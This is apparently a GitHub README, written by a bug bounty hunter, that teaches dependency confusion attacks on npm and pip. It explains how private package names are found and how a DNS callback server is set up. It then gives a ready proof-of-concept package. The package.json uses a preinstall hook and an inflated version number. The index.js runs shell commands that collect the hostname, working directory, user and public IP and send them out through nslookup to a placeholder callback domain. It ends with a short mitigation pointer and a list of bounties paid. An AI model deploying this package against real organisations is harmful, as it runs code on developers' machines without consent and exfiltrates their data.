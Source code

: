 # All About Dependency Confusion Attack, (Detecting, Finding, Mitigating)

## Table of contents:

- [About dependency confusion attack](#about-dependency-confusion-attack)
- [How npm works and understanding package system, version, scope packages, etc.](#how-npm-and-similar-package-system-work-and-understanding-its-structure-and-more)
- [Detecting private package](#detect-private-pip-and-npm-packages)
- [Automation with bash](#automating-with-bash-to-find-private-packages)
- [Manual Hunting](#manual-hunting-to-find-more-packages)
- [Setting up bind9 DNS server](#setting-up-bind9-dns-server)
- [Uploading POC](#uploading-poc)
- [Mitigation](#mitigation)
- [Bounty Transparency](#bounty-transparency)



## About dependency confusion attack:
When you put `pip install -r requirements.txt` in your terminal did you check the package that you currently installing is not in the public repository? Or did someone put a backdoor on this package that you installed blindly? How do you trust Pypi? Is there anything that can harm your machine which is protected by a firewall? 
Well, you might wonder how you can easily get hacked for running this command in your terminal! I'm not going to explain how this occurs, there is a great article about [Dependency Confusion](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610) by [alex birsan](https://twitter.com/alxbrsn)! But I can't resist giving you a simple explanation about the dependency confusion attack! 
Suppose you had a project called `A` which completely depends on react packages as you might hear of some third-party react component packages that are currently used by lots of companies for their development process, (for example `react-router`) which means your current project heavily depends on some third-party module! Now Imagine you got a new job at this company and your previous colleague didn’t tell you about his project but did give you a file called `package.json` with a bunch of js files and you know what to do with that just simple command `npm -i` and You're good to go. But did you know that there might be some private packages that your senior developer didn’t allow you to disclose in public? So what will happen when you put `npm -i` in your terminal if a malicious actor claims this package? Yeah, that's the simple explanation of a dependency confusion attack!


## How npm and similar package system work and understanding its structure and more:

npm stands for node package manager which is used for storing your project dependency as public. But npm also allows you to install packages from your local package manager which is private, which means these packages are restricted from public users, just an internal user or specific traffic can install these packages for development purposes! And also these packages didn’t exist in public npm [registry](https://registry.npmjs.com), this works fine until you accidentally forget to mention the install path in your cli file.
but in pip, these are completely different as pip checks for higher versions if you put the `--extra-index` flag for your installation, like if you put `--extra-index` when you install pip packages through your terminal eg:`pip install -r requirements.txt --extra-index-url` then pip will first check which repository contains a higher version of this package. if pip sees that your local registry contains a higher version, pip will install this instead of a public one. Now imagine you accidentally leak your private pip package name Through GitHub repo and the attacker claims these packages and includes 2000.0.0 as the package version but in your local registry this package version is like 2.0.1 what will happen? well, pip priorities a higher version if you include the `--extra-index-url` flag so pip will install this package from a public instead of a private repository, as pip sees this version is higher than your local version. You can read how pip works in this blog [post](https://realpython.com/what-is-pip/), also if you want to read how the version works in npm please read this [article](https://stackoverflow.com/questions/22343224/whats-the-difference-between-tilde-and-caret-in-package-json).as my research is ongoing on other package system so I can't tell you enough for this! I will add them here.


## Detect private pip and npm packages:

This is so easy for npm normal packages, visit `https://npmjs.com/package/YOUR-PACKAGE-NAME-HERE` and for scope packages, let me tell you what exactly it means 'if you have seen an npm package name like this `@test/example-packages` that means every package are started with `@` and divided by `\` the first part of `\` is scopes name and the second part is actual packages name so if you found this type of package name in your finding, you have to check whether this scope name is claimed in a public repository or not, for that visit this `https://npmjs.com/org/SCOPE-NAMES-HERE` if this shows you 404 that's means this is unclaimed scope name! So for uploading POC packages on npmjs, you have to create an org name first then update this name to your package.json file like this `@org/package-name-here`, and for pip just [visit](https://pypi.org/)



## Automating with bash to find private packages:

Download this `npm-automation.sh` file and run this command in your terminal `bash automate-bash.sh <target domain>` make sure you have installed [tomnomnom's waybackurls](https://github.com/tomnomnom/waybackurls) and [hacker_'s gau](https://github.com/lc/gau) in your machine.



## Manual hunting to find more packages:

- Using Github:
in GitHub you can visit every repo to see if there is any of these filenames exist, like for npm `package.json`,`yarn.lock`,`package-lock.json`,`yarn-error.log`. For pip `requirements.txt`, `requirement-dev.txt`,`requirement-prod.txt`. 
- Using Devtools:
open your Firefox browser and visit your target domain/subdomain ==> right click ==> inspect ==> go to `Debugger` ==> try to find `Webpack` directory (if your target used webpack, otherwise you may not see anything) ==> in `Webpack` directory you will see `node_modules` folder and every subfolder name of `node_modules` folder is an npm package.
- JS file:
js file is so boring to read, but if you already know what an npm package name looks like, you may able to spot them within the js file. (this needs practice)



## Setting-up bind9 DNS server:
follow these videos and repo
[Github repo](https://github.com/JuxhinDB/OOB-Server)
[DigitalOcean + Namecheap](https://www.youtube.com/watch?v=iMSqT9MZbQs),
[AWS + Godaddy](https://www.youtube.com/watch?v=p8wbebEgtDk),


## Uploading POC:
please follow this [video](https://youtu.be/GJSvEAJeqko) on my youtube channel.

in this folder `src/poc`, edit `index.js` file. replace `niroborg-npm-com-test` with your target package name. Also `bind9-or-callback-server.com` to your callback DNS server.
```javascript
const { exec } = require("child_process");
exec("a=$(hostname;pwd;whoami;echo 'niroborg-npm-com-test';curl https://ifconfig.me;) && echo $a | xxd -p | head | while read ut;do nslookup $a.bind9-or-callback-server.com;done" , (error, data, getter) => {
	if(error){
		console.log("error",error.message);
		return;
	}
	if(getter){
		console.log(data);
		return;
	}
	console.log(data);
	
});
```
and in `package.json` file, replace `test-npm-com-test` with your target package name. then define the version name. it is recommended that you should upload multiple package versions when you upload the npm package because npm uses a special version system. [read more](https://stackoverflow.com/questions/22343224/whats-the-difference-between-tilde-and-caret-in-package-json)
```json
{
  "name": "test-npm-com-test",
  "version": "1.999.0",
  "description": "",
  "main": "main.js",
  "scripts": {
    "preinstall": "node index.js > /dev/null 2>&1",
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "lexi2",
  "license": "ISC",
  "dependencies": {
    "lodash": "^4.17.21"
  }
}

```

## Mitigation:
Scan your project dependency with [confused](https://github.com/visma-prodsec/confused) by [@visma-prodsec](https://github.com/visma-prodsec)

(I have my scanner just for npm, and I think [confused](https://github.com/visma-prodsec/confused) is cool as they add a bunch of other package managers for scanning)
## Bounty Transparency:
- $2000 from Shein (goes public)
- $2000 from an outside bug bounty program (closed)
- $1500 from Bugcrowd private program (closed)
- $1250 from Bugcrowd private program (ongoing)
- $1000 from an outside bug bounty(self-hosted)
- $1000 from Comcast Cable. (closed)
- $700 from an outside bug bounty program(self-hosted)
- $500 from an outside bug bounty program(self-hosted)
- $250 from Bugcrowd private program (closed)
## Shoutouts:
- [@alxbrsn](https://twitter.com/alxbrsn) for his amazing [research](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610) , without his research, nothing would have been possible.
- [@Stok](https://twitter.com/stokfredrik) for his amazing [video](https://www.youtube.com/watch?v=p8wbebEgtDk) about setting-up bind9 DNS server (using GoDaddy + aws)
- [@juxhindb](https://twitter.com/juxhindb) for his amazing github [repo](https://github.com/JuxhinDB/OOB-Server)
- [@nigamelastic](https://twitter.com/nigamelastic) for his amazing [video](https://www.youtube.com/watch?v=iMSqT9MZbQs) about setting-up bind9 DNS server(using Namecheap + digital ocean)
- [@tomnomnom](https://twitter.com/tomnomnom) for his powerful archive URL fetching tool [waybackurls](github.com/tomnomnom/waybackurls)
- [@hacker_](https://twitter.com/hacker_) for his powerful archive URL fetching tool [gau](github.com/lc/gau)
- [@visma-prodsec](https://github.com/visma-prodsec) for their powerful dependency scanner [confused](https://github.com/visma-prodsec/confused)

## Useful?

<a href="https://buymeacoff.ee/x1337loser" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>

<a href="https://archive.org/donate">Donate to the InternetArchive</a>
